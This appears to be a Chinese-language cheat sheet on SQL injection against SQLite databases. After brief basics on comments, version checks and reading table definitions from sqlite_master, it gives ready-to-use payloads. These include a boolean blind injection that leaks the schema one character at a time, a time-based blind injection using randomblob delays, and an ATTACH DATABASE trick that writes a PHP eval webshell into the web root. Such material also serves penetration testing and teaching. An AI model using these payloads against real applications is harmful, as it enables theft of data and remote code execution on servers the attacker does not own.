 SQLite 是一个进程内的库，实现了自给自足的、无服务器的、零配置的、事务性的 SQL 数据库引擎。它是一个零配置的数据库，这意味着与其他数据库不一样，你不需要在系统中配置。

SQLite 数据库的特点是它每一个数据库都是一个文件，当你查询表的完整信息时会得到创建表的语句。

**相关文章**
- [SQLite注入](https://mp.weixin.qq.com/s/12lN4zeezSsCLYvRYJfAuw)

### SQLite 基础

- https://www.runoob.com/sqlite/sqlite-commands.html

**注释**

```sql
;       注释内容，表示单行注释
--      注意--后面有一个空格
/* */   多行注释
```

**查看版本**

```sql
select sqlite_version();
```

**查询表名和列名**

```sql
select sql from sqlite_master
```

**布尔盲注**

布尔盲注通过查询正确和错误返回的页面不同来判断数据内容。

SQLite不支持ascii，所以直接通过字符去查询，这里和mysql不同，这个区分大小写。也没有mid,left等函数。

```sql
-1' or substr((select group_concat(sql) from sqlite_master),1,1)<'a'/*
```

**时间盲注**

SQLite没有sleep()函数，但可以用randomblob(N)函数，randomblob(N) 函数，其作用是返回一个 N 字节长的包含伪随机字节的 BLOG。N 是正整数。可以用它来制造延时。SQLite没有if，所以需要使用case……when来代替。

```
-1' or (case when(substr(sqlite_version(),1,1)>'3') then randomblob(300000000) else 0 end)/*
```

**写 webshell**

SQLite 的 ATTACH DATABASE 语句是用来选择一个特定的数据库，使用该命令后，所有的 SQLite 语句将在附加的数据库下执行。
```
ATTACH DATABASE file_name AS database_name;
```

如果附加数据库不存在，就会创建该数据库，如果数据库文件设置在web目录下，就可以写入webshell。
```
ATTACH DATABASE '/var/www/html/shell.php' AS shell;
create TABLE shell.exp (webshell text);
insert INTO shell.exp (webshell) VALUES ('<?php eval($_POST[a]);?>');
```

---